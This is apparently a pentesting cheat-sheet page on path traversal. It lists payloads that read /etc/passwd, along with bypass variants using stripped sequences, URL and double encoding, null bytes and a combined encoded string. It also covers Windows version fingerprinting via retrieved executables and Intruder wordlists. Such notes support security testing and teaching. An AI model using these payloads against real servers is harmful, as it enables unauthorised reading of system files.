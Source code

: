 ```yaml
---
title: "Path traversal"
weight: 19
description: "Explore path traversal vulnerabilities, including bypass techniques and exploitation methods. Learn how attackers use encoding, double encoding, and null bytes to access restricted files on servers."
---
```


# Path traversal

## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

---

## Bypass defenses

* Elimination (strip): `../` -> `....//`
  * Test: try to change the original request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` -> `%2e%2e%2f`
* Double-encode: `../` -> `%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{{< hint style=notes >}}
On Windows, both `../` and `..\` are valid directory traversal sequences.
{{< /hint >}}

---

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist extension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

---

## Common files

**Linux**: 
- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

**Windows**: 
- Short list: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt
- Long list: https://github.com/soffensive/windowsblindread/tree/master

{{< hint style=tips >}}
On Windows, you can also try using a different drive letter than *C:*.
{{< /hint >}}

---

## Identify Windows version

1. Retrieve a Microsoft executable from the target system:
   - `C:/Windows/explorer.exe`
   - `C:/Windows/notepad.exe`
   - `C:/Windows/system32/ntoskrnl.exe`

2. Check version information:

    ```bash
    exiftool explorer.exe

    [...]
    OS Version                      : 10.0
    Image Version                   : 10.0
    Subsystem Version               : 10.0
    Subsystem                       : Windows GUI
    File Version Number             : 10.0.14393.7513
    Product Version Number          : 10.0.14393.7513
    File Flags Mask                 : 0x003f
    File Flags                      : (none)
    File OS                         : Windows NT 32-bit
    Object File Type                : Executable application
    File Subtype                    : 0
    Language Code                   : English (U.S.)
    Character Set                   : Unicode
    Company Name                    : Microsoft Corporation
    File Description                : Windows Explorer
    File Version                    : 10.0.14393.7513 (rs1_release.241021-1750)
    Internal Name                   : explorer
    Legal Copyright                 : © Microsoft Corporation. All rights reserved.
    Original File Name              : EXPLORER.EXE
    Product Name                    : Microsoft® Windows® Operating System
    Product Version                 : 10.0.14393.7513
    [...]
    ```

3. Compare the version number with the following official table: https://learn.microsoft.com/en-us/windows/win32/sysinfo/operating-system-version.

{{< hint style=tips >}}
Some operating systems may share the same version name (e.g., Windows 10 and Windows 11), which can make identification tricky. To accurately determine the OS version, check the build number (e.g., `14393`) and refer to this resource: https://www.gaijin.at/en/infos/windows-version-numbers.
Alternatively, you can search the product version on Google for more information.
{{< /hint >}}

---

## Automation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
